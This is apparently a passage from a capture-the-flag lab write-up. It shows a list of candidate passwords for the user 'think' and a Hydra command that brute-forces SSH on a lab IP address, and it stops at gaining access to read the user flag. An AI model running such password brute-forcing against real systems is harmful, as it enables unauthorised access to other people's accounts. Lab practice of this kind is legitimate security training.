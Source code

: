 ```
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171

```

And we have a password list file for 'think' .
# SSH (22)

## Hydra

Let's do some [[Bruteforcing]] to find the right password :

```
hydra -l think -P passwords  10.10.116.56 ssh -vvv 
```

![[Pasted image 20250719174923.png]]

## First Access

Now we can access 'think' [[SSH]] and read the user flag :
